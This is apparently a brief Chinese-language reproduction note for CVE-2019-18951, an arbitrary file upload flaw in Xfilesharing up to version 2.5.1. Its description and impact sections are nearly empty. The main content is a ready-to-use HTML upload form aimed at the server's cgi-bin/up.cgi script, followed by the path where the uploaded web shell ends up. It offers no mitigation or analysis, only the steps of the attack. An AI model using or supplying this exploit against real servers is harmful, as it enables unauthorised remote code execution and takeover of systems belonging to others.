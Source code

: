 # CVE-2019-18951 Xfilesharing 2.5.1本地文件上传getshell

### 一、漏洞简介

### 二、漏洞影响

Version: <=2.5.1

### 三、复现过程

任意文件上传


```html
<form action="http://url/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
    <input type="text" name="sid" value="joe">
    <input type="file" name="file">
    <input type="submit" value="Upload" name="submit">
</form>
```

Shell地址 : `http://url/cgi-bin/temp/joe/shell.php`